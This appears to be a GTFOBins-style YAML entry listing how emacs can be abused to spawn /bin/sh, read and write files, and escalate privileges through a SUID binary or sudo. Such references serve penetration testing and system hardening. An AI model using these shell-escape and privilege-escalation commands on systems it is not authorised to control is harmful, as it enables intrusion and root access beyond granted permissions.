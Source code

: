 ```yaml
---
functions:
  execute-interactive:
    - code: emacs -Q -nw --eval '(term "/bin/sh")'
  file-write:
    - code: |
        emacs file_to_write
        C-x C-s
  file-read:
    - code: emacs file_to_read
  suid-enabled:
    - code: ./emacs -Q -nw --eval '(term "/bin/sh -p")'
  sudo-enabled:
    - code: sudo emacs -Q -nw --eval '(term "/bin/sh")'
---
```

